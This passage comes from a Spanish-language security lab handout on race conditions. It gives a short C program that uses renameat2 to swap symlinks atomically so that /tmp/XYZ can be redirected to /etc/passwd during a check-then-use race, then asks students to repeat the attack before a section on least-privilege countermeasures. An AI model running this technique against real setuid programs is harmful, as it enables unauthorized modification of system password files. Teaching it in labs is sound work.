 Para resolver este problema, necesitamos que las funciones \texttt{unlink()} y \texttt{symlink()} sean atómicas. Afortunadamente, existe una llamada al sistema que nos permite lograr esto. Siendo más preciso nos permite intercambiar dos links simbólicos de forma atómica.
El siguiente programa crea dos links simbólicos \texttt{/tmp/XYZ} y \texttt{/tmp/ABC}, usando la llamada al sistema \texttt{renameat2} los intercambia atómicamente.
Esto nos permite cambiar a donde apunta \texttt{/tmp/XYZ} evitando introducir una Race Condition.

\begin{lstlisting}
#define _GNU_SOURCE
  
#include <stdio.h>
#include <unistd.h>
int main()
{
   unsigned int flags = RENAME_EXCHANGE;

   unlink("/tmp/XYZ"); symlink("/dev/null",   "/tmp/XYZ");
   unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");

   renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
   return 0;
}
\end{lstlisting}


\paragraph{Tareas.} Por favor realice el ataque nuevamente con esta nueva estrategia, si todo es hecho de manera correcta, su ataque debería de ser exitoso.



\section{Tarea 3: Contramedidas}



\subsection{Tarea 3.A: Aplicando el Principio del Menor Privilegio}

El problema fundamental del programa vulnerable mostrado en este laboratorio es que viola el {\em  Principio del Menor Privilegio}. 
El programador sabe que quien ejecute este programa puede llegar a ser un usuario potencialmente privilegiado y es ese el sentido del chequeo que se realiza a través de la función {\tt access()} limitar sus privilegios de acceso.
Sin embargo esta óptica no es la correcta, un mejor enfoque es aplicar el {\em  Principio del Menor Privilegio} este declara que si un usuario no necesita determinado privilegio, ese privilegio no le debe de ser otorgado.

